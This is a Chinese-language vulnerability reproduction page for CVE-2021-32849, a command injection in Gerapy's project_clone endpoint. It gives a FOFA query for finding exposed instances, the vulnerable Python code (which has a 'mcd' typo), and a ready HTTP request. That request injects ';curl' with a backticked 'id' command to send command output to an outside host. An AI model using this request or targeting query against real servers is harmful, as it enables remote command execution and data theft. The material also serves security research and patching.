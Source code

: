 # Gerapy clone 后台远程命令执行漏洞 CVE-2021-32849

## 漏洞描述

近日，我司应急团队监测到关于Gerapy 0.9.6和之前的版本中存在注入漏洞，漏洞编号：CVE-2021-32849，该漏洞源于程序没有正确清理通过project_clone端点传递给Popen的输入，攻击者可利用该漏洞执行任意命令。

## 漏洞影响

<a-checkbox checked>Gerapy <= 0.9.6</a-checkbox></br>

## FOFA

<a-checkbox checked>title="Gerapy"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1638069254477-82075ea9-6191-4ebd-8e92-bed0104a0942-20220313132339956.png)

出现漏洞的文件为 **gerapy/server/core/views.py**

![img](../../../.vuepress/public/img/1638069295816-0a643bcf-f47e-4611-8352-57f49a8ba53a.png)

```python
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_clone(request):
    """
    clone project from github
    :param request: request object
    :return: json
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        address = data.get('address')
        if not address.startswith('http'):
            return JsonResponse({'status': False})
        address = address + '.git' if not address.endswith('.git') else address
        cmd = 'git clone {address} {target}'.format(address=address, target=join(PROJECTS_FOLDER, Path(address).stem))
        logger.debug('clone cmd %s', mcd)
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
        stdout, stderr = bytes2str(p.stdout.read()), bytes2str(p.stderr.read())
        logger.debug('clone run result %s', stdout)
        if stderr: logger.error(stderr)
        return JsonResponse({'status': True}) if not stderr else JsonResponse({'status': False})
```

这里可以看到 address参数 为可控参数，拼接到 cmd中使用 Popen命令执行，构造请求包

```python
POST /api/project/clone HTTP/1.1
Host: 
Content-Length: 61
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"address":"http://127.0.0.1;curl xxx.xxx.xxx.xxx:9999?`id`"}
```

![img](../../../.vuepress/public/img/1638069543218-d7275841-07af-4a10-a28a-065c329971b6.png)
